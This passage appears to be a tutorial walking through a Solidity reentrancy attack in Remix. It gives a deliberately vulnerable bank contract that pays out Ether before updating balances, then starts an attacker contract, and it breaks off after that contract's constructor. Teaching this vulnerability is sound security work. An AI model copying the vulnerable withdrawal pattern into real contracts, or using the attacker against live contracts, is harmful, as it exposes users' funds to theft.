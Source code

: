This is exactly how a reentrancy attack works.  

---

## ✅ Step-by-Step Guide to Test the VulnerableBank and Attacker Contract in Remix

### 🔨 Step 1: Write the `VulnerableBank` contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableBank {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "No funds");

        // ❌ vulnerable: Ether sent before state update
        (bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(sent, "Failed to send");

        balances[msg.sender] = 0;
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

---

### 🧱 Step 2: Deploy the `VulnerableBank` contract

- In Remix, compile and deploy it first.
- Copy the deployed address — you’ll need this in the next step.

---

### 🔨 Step 3: Write the `Attacker` contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IVulnerableBank {
    function deposit() external payable;
    function withdraw() external;
}

contract Attacker {
    IVulnerableBank public bank;
    address public owner;
    uint public attackCount;

    constructor(address _bankAddress) {
        bank = IVulnerableBank(_bankAddress);
        owner = msg.sender;
    }
```